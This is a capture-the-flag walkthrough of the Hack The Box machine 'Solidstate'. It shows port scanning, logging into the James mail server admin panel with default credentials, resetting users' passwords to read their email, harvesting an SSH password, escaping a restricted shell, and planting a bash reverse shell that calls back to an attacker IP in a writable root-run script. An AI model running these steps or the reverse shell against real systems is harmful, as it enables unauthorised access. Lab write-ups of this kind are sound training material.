

# [Solidstate](https://app.hackthebox.com/machines/solidstate)


First, I do **rustscan** to identify open ports.
```bash
rustscan 10.10.10.51 -t 2000
```




Now, it's time to nmap scan for open ports.
```bash
nmap -A -p22,25,80,110,119,4555 -sC -sV 10.10.10.51 -Pn
```


Directory brute-forcing.
```bash
ffuf -u http://10.10.10.51/FUZZ  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

It just finds 'assets' and 'images' directories.

From the result of nmap scan. We identify that **James** is running for version of **2.3.2**


Let's search for exploit.


Let's try connect 4555 port with root:root credentials. It JAMES Admin Panel.


We list users and find below users.


We can change passwords of all users. Let's change password of all with 'dr4ks'.


Let's do telnet for (110 port) with all users which we changed their password and see what emails they have.

Once I entered **username and password** 'USER mindy' and 'PASS dr4ks' I got below email.


From here, I grab below credentials.

username: mindy
pass: P@55W0rd1!2@


Let's access via ssh.

While I access, I see that some commands doesn't work.


Let's look at shell type by reading '/etc/passwd' file for this user.


We see that it is , 'rbash' shell. It is restricted shell. We can't use some commands.

How we can bypass it,  for this , while we join via ssh need to add some options. As below that we can specify **interactive shell via '/bin/bash' binary.**


```bash
ssh -t mindy@10.10.10.51 bash
```


user.txt


We see 'opt' directory has file 'tmp.py' that have full permission, let's add reverse shell into this file and get root shell.


Here's our reverse shell script.
```bash
os.system('bash -c "bash -i >& /dev/tcp/10.10.16.3/1234 0>&1"')
```

root.txt


